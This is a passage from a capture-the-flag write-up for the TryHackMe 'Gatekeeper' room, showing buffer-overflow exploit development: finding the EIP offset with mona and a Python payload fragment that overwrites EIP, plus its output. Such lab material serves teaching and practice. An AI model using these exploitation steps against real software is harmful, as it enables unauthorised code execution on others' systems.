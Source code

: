 **We crashed the executable!**

**Next, find the EIP offset:**
```
!mona pattern_offset EIP_VALUE
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Gatekeeper/images/a10.png)

- Found EIP offset: 146

**Let's update our python exploit script for sanity check!**
```py
offset = 146
payload = b'A' * offset + b'B' * 4
```

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Gatekeeper]
└─# python3 exploit.py
[+] Sending evil buffer...
[+] Done!
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Gatekeeper/images/a11.png)
